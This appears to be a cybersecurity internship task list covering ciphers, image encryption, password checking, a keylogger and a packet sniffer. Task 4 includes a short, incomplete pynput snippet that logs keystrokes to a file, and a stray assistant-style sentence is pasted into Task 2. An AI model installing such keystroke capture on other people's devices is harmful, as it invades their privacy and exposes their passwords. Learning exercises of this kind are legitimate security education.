TASK 1: 
Implement Caesar Cipher- Create a Python program that can encrypt and decrypt text using the Caesar Cipher algorithm. Allow users to input a message and a shift value to perform encryption and decryption.

TASK 2 :
Develop a simple image encryption tool using pixel manipulation. You can perform operations like swapping pixel values or applying a basic mathematical operation to each pixel. Allow users to encrypt and decrypt images. Certainly! Below is a simple Python script using the Pillow library for image processing. Make sure to install Pillow first if you haven't already: pip install pillow This script uses a simple encryption and decryption process. You can customize this method or explore other pixel manipulation techniques for more robust encryption.

TASK 3:
simple Python script that assesses the strength of a password based on criteria such as length, presence of uppercase and lowercase letters, numbers, and special characters. Provide feedback to users on the password's strength.

TASK 4:
Create a basic keylogger program that records and logs keystrokes. Focus on logging the keys pressed and saving them to a file. Note: Ethical considerations and permissions are crucial for projects involving keyloggers. from pynput import keyboard This line imports the keyboard module from the pynput library, which is used for monitoring and controlling input devices, such as keyboards and mice. def keyPressed(key): print(str(key)) with open("keylog.txt", 'a') as logkey: try: char = key.char logkey.write(char) except: print("Error getting char")

TASK 5:
Develop a packet sniffer tool that captures and analyzes network packets. Display relevant information such as source and destination IP addresses, protocols, and payload data. Ensure the ethical use of the tool for educational purposes.
